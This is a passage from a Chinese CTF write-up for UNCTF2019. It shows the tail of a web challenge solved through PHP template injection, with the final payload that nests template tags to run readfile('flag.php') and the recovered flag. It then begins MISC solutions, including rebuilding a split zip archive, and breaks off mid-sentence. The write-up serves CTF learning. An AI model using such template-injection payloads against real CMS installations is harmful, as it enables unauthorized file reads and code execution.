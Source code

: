 经过以下这段代码

```php
        preg_match_all($Rule,$content,$iar);
        $arlen=count($iar[0]);
        $elseIfFlag=false;
        for($m=0;$m<$arlen;$m++){
            $strIf=$iar[1][$m];
```

获得

```php
$strIf = readfile(%27flag.php%27)
```

然后获得flag

最终payload为：

```php
?content=<search>{i{haha:type}</search>
&searchnum={end%20if}&type=f:rea{haha:typename}&typename=dfile(%27flag.php%27)}
```



```html

<a href="www.zip">source code</a>
<br/>
<?php 
$flag = "UNCTF{5ee25610af306b625b4cadb4cb5fa24b}";
?>
```







# 题解[MISC]

## 快乐游戏题

![](/home/cookie/Pictures/blogs/UNCTF2019/17.png)

就打游戏，没啥好说的



## hidden_secret

题目修改了一下，感觉变简单了不少。

给了三个文件，找了一个zip文件包分析一下，题目给的三个数据实际上是zip文件包的三部分，按照zip文件的格式，补齐缺失的数据，在头部加上**50 4B**，然后按顺序拼上1,2,3三个部分的文件。

保存成一个zip包，解压，发现里面有一个2.jpg，binwalk跑一下，分离出一个1.txt，内容如下
